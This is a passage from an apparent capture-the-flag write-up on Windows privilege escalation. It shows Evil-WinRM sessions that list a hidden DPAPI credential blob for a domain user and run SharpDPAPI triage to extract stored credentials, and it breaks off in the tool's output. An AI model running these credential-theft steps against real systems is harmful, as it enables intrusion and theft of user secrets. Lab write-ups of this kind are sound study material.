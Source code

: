 ```shell
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to System

### Data Protection API (DPAPI)

Our man `trustie_rity` came in clutch and catched a `Data Protection API (DPAPI) Blob` for the user `steph.cooper`.

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\appdata\roaming\microsoft\credentials> gci -Hidden

    Directory: C:\Users\steph.cooper\appdata\roaming\microsoft\credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9
```

We fired up `SharpDPAPI` to perform a complete `triage` of the user to see if we could catch some low-hanging fruits.

- [https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/SharpDPAPI.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/SharpDPAPI.exe)

```shell
*Evil-WinRM* PS C:\temp> .\SharpDPAPI.exe triage

  __                 _   _       _ ___
 (_  |_   _. ._ ._  | \ |_) /\  |_) |
 __) | | (_| |  |_) |_/ |  /--\ |  _|_
                |
  v1.11.3


[*] Action: User DPAPI Credential and Vault Triage

[*] Triaging Credentials for current user


Folder       : C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\

  CredFile           : DFBE70A7E5CC19A398EBF1B96859CE5D

    guidMasterKey    : {556a2412-1275-4ccf-b721-e6a0b4f90407}
    size             : 11068
```